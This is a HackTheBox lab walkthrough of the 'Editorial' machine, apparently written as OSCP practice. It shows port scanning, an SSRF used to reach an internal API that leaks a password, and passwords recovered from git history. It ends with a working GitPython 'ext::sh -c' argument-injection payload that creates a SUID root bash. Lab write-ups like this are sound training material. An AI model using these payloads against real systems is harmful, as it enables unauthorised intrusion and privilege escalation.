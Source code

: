 ```yaml
---
author: "0xt0pus"
title: "HackTheBox Editorial machine Walkthrough"
date: "2025-01-25"
description: " "
tags: ["Hackthebox", "CVE","OSCP-Preparation", "Machine-Walkthrough"]
cover:
    image: "/writeups/Editorial-HackTheBox/Cover.png"
ShowToc: true
TocOpen: false
---
```




## Enumeration

### Scanning with nmap
All port scanning is being perform with the following command:

```
nmap -p- --min-rate 2500 10.10.11.20 -oN allports.txt
```

The following shows the result of the command:

![](/writeups/Editorial-HackTheBox/1.png)

It shows port 22, 80 as open. In order to find the version of services, service version enumeration is being performed with the following command. 

```
nmap -p 22,80 10.10.11.20 -sC -sV -O -oN serviceVersion.txt
```

![](/writeups/Editorial-Hackthebox/2.png)



As the web server is running, so the website is being browsed and the following is the hosted web server. 
![](/writeups/Editorial-Hackthebox/3.png)




The following email found, but it was of no use.  
submissions@tiempoarriba.htb

### Directory Enumeration: 

Dirsearch is being used for enumerating all the available directories in the target server.

Command:
```
dirsearch http://editorial.htb/
```

![](/writeups/Editorial-Hackthebox/4.png)
As shown, the two directories `/about` and `/upload` are being found.

The `/upload` directory has a form to upload the book information. 
![](/writeups/Editorial-Hackthebox/5.png)


Tried the file upload vulnerability in the file upload. But it is not rendering the uploaded file in the web page, instead, it is serving the uploaded file for downloading. 

There's another option to upload the URL of the book cover. This feature has an SSRF vulnerability. 
This can be confirmed by running a `nc` listener, and sending request to our own listener in the book cover URL as shown below:
![](/writeups/Editorial-Hackthebox/6.png)


A request can be sent to the internal server to get information from there. So, a request is being sent to `127.0.0.1:80` as shown:

It takes a bit of time, and responded with a jpeg file. For enumerating other ports, I tried enumerating a few other ports, but all were giving the same jpeg file as shown:
![](/writeups/Editorial-Hackthebox/7.png)


### Enumerating the Open Ports in the Internal Server with FFUF:

Replaced the port number in burp with `FUZZ` as shown below:
![](/writeups/Editorial-Hackthebox/8.png)

Saved the burp request in file called `req.txt` and run ffuf with the following command:

```
ffuf -request req.txt -request-proto http -w <(seq 1 65535) -fr "1630734277837_ebe62757b6e0.jpeg"
```

This will use the req.txt to fuzz the port with the wordlist of sequence from 1 to 65535 and will not show all the responses containing the regex `1630734277837_ebe62757b6e0.jpeg`. 

Port 5000 was sending a different response. That means, this port is open. 

Sent request to port 5000 as shown below:
![](/writeups/Editorial-Hackthebox/9.png)

It gave me a URL to download a file. 

![](/writeups/Editorial-Hackthebox/10.png)

The file contains a list of end points. I sent request to the `/api/latest/metadata/messages/authors` endpoint, which again gave ma another URL. I visited that URL and got a password of `dev` user as shown:
![](/writeups/Editorial-Hackthebox/11.png)

### Getting Access of the Machine

The password was used to get access of the machine through SSH as the `dev` user. 

### Literal Movement:

The `apps` directory has a .git directory, which contains the different version of the code. 

There were different files which were stagged but not committed as shown:

Command Used:
```
git status
```

![](/writeups/Editorial-Hackthebox/12.png)

The log of git showed interesting commit with message `downgrading prod to dev`:
Command Used:
```
git log
```

![](/writeups/Editorial-Hackthebox/13.png)


This commit is being shown with the command:

```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```

![](/writeups/Editorial-Hackthebox/14.png)

This showed the password of `prod` user as shown. 

### Privilege Escalation

There's an script, which the prod user can run as the root user as shown:
![](/writeups/Editorial-Hackthebox/15.png)

The following is the content of file:
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Here, the git module has the vulnerability. I searched about python git priv esc and got this:
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

The following can be supplied as the argument to the script for executing command as root:
```
ext::sh -c touch% /tmp/pwned
```

This will create `/tmp/pwned`. 
So, in order to exploit this i run this command, which will copy the root shell and will set its suid bit, we can use that shell later to get root access. 

```python
ext::sh -c cp /bin/bash /tmp/bash; chmod +s /tmp/bash

# we have to add % before each space so it will be like this

ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash

# The final payload will be:

/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /bin/bash% /tmp/bash;% chmod% +s% /tmp/bash'
```

The following shows the result of this command:

![](/writeups/Editorial-Hackthebox/16.png)
It displayed some kind of error, but we can ignore that as our code executed already. 
I used the following command to interact with the shell and get access as root:
```
/tmp/bash -p
```


Hence, the machine is ROOTED!

